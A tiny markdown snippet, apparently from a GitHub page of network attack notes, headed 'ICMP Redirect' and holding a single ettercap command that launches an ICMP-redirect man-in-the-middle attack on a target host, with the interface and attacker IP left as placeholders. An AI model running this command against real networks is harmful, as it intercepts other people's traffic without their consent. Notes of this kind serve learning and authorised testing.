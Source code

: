 # ICMP Redirect

```
$ sudo ettercap -Tqi <interface> -M icmp:<target_MAC_address>/<attacker_IP>
```